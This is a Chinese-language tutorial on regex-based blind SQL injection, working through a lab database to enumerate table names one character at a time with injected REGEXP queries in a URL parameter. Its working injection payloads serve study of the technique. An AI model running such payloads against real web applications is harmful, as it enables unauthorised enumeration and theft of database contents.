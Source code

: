 ##### 正则注入
sql中正则注入作者博客：https://www.cnblogs.com/lcamry/articles/5717442.html>

> EG：
> 1. 判断第一个表名的第一个字符是否是a-z中的字符,其中blind_sqli是假设已知的库名<br>
> 注：正则表达式中 ^\[a-z] 表示字符串中开始字符是在 a-z范围内<br>
`index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*`
> 2. 判断第一个表名的第一个字符是否是a-z中的字符,其中blind_sqli是假设已知的库名<br>
`index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/*`
> 3. 确定该字符为n<br>
`index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n' LIMIT 0,1) /*`
> 4. 表达式的更换如下<br>
**`expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE`**<br>
这时说明表名为news ，要验证是否是该表明 正则表达式为'^news$'，但是没这必要 直接判断 table_name = ’news‘ 不就行了。
> 5. 接下来猜解其它表了<br>
实验表明：在limit 0,1下，regexp会匹配所有的项，regexp匹配的时候会在所有的项都进行匹配<br>
`select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1);是正确的`

- **注意：limit注意使用参数，配合限定where条件。limit 0,1是表示从第1条数据开始，取1条！默认开始为0，当为limit 2时表示取前2条记录。**

其他示例：
0. `select user() regexp '^ro';` 假如用户为root等，查询会返回1。
1. `select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));`<br>
2. `select * from users where id=1 and 1=(user() regexp '^ro')`<br>
3. `select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);`

### 思考一个问题？
limit是限定输出，并不是限定正则哦。

实验操作实例：security有emails,referers,uagents,users四个表
- 当`select table_name from information_schema.tables where table_schema='security' and table_name regexp '^[a-z]';`的时候，会把四个表都查询出：

| table_name |
| ---------- |
| emails     |
| referers   |
| uagents    |
| users      |

- 当`select table_name from information_schema.tables where table_schema='security' and table_name regexp '^[a-z]' limit 0,1;`或者`limit 1`的时候：

| table_name |
| ---------- |
| emails     |
